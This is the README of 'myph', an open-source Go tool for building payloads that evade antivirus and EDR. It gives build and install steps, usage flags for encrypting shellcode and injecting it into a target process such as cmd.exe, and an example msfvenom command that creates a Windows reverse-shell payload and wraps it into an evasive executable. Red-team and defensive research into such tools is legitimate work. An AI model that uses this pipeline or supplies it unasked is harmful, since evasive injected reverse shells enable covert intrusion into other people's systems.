 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes. Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
go install github.com/CMEPW/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -r, --arch string          architecture compilation target (default "amd64")
  -e, --encryption encKind   encryption method. (allowed: AES, RSA, XOR) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -o, --os string            OS compilation target (default "windows")
  -f, --out string           output name (default "myph-out")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
  -v, --version              version for myph
```

This tool uses the CRT method. If you don't know what that is, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~

> Altough there is an OS version, Linux or MacOS are not supported !

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```
